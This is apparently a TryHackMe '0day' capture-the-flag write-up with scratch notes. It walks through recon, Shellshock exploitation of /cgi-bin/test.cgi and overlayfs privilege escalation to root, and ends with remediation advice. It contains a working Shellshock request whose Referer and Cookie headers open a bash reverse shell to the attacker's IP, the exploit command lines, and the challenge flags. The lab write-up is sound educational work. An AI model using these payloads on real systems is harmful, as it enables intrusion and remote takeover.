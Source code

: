 
HOST: 10.10.80.192
TARGET: 10.10.246.157



nmap
gobuster
nikto -h 10.10.50.50

https://www.exploit-db.com/exploits/34900
python2.7 exploit.py payload=reverse rhost=10.10.143.96 lhost=10.10.186.67 lport=4444


https://www.exploit-db.com/exploits/37292
export PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin



# TryHackMe: 0day

## Challenge Description

Exploit Ubuntu, like a Turtle in a Hurricane

Root my secure Website, take a step into the history of hacking.

## Planning and Scoping

Our local machine (the Host) has the IP address: `10.10.80.192`. The remote machine we are targeting is at IP address: `10.10.246.157`.

## Information Gathering and Reconnaissance

We began our investigation by using `nmap` to perform a network scan, identifying open ports and the services running on the target:

```bash
nmap -sC -sV 10.10.246.157
```

Results showed the following open ports and services:

- 22/tcp: OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13
- 80/tcp: Apache httpd 2.4.7

Next we can use nikto, a vulnerability scanner, to see possible vulnerabilities

```bash
nikto -h 10.10.246.157
```

The scan detected the following potential vulnerability:

- OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability.

## Threat Modeling

The potential risks and vulnerabilities in the web application's architecture were determined at this stage. The primary threat identified was the Shellshock vulnerability, a serious flaw that can allow an attacker to execute commands remotely, posing a significant risk to the system's security.

## Vulnerability Assessment

Based on the information gathered during the reconnaissance phase, we identified the Shellshock vulnerability in the web application, specifically in the `/cgi-bin/test.cgi` script. This vulnerability allows an attacker to remotely execute arbitrary commands via specific environment variables.

## Exploitation

We exploited the Shellshock vulnerability using a script from Exploit-DB. The script initiates a reverse shell that connects back to our host machine. This connection was facilitated by specially crafted HTTP headers `Referer` and `Cookie` that took advantage of the Shellshock vulnerability. The exploitation was successful and provided us with a shell on the target machine as the `www-data` user, a step toward gaining full control over the target system.

Here is the exploitation script we used, available on Exploit-DB: https://www.exploit-db.com/exploits/34900

```bash
python2.7 exploit.py payload=reverse rhost=10.10.246.157 lhost=10.10.80.192 lport=4444
```

The exploitation resulted in the establishment of a shell as the `www-data` user on the target system. The following HTTP GET request was used:

```http
GET /cgi-bin/test.cgi HTTP/1.1
Host: 10.10.246.157
Accept-Encoding: identity
Referer: () { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.80.192/4444 0>&1 &
Cookie: () { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.80.192/4444 0>&1 &
```


This allowed us to retrieve the first flag:


```bash
cat /home/ryan/user.txt
THM{Sh3llSh0ck_r0ckz}
```


For the second flag, we exploited a Local Privilege Escalation vulnerability named 'overlayfs': https://www.exploit-db.com/exploits/37292

```bash
$ export PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
$ gcc ofs.c -o ofs
$ ./ofs
# cat /root/root.txt
THM{g00d_j0b_0day_is_Pleased}
```


## Recommendations

1. Update the system software: The server is running outdated versions of software, including OpenSSH and Apache httpd, which may contain vulnerabilities. Regularly updating these services to their latest stable versions can help to mitigate these vulnerabilities.
2. Patch the Shellshock vulnerability: It is recommended to patch this vulnerability immediately. Patches for this bug have been available since it was discovered. A system update should resolve this issue.
3. Implement Input validation: Consider implementing input validation in any scripts used in the web application to prevent the execution of arbitrary commands.
4. Apply Principle of Least Privilege (PoLP): Services should run with the least amount of privilege necessary to perform their tasks. In this case, the user `www-data` has more permissions than are necessary for running the web application. Reducing these privileges can help limit the potential damage caused by a successful exploit.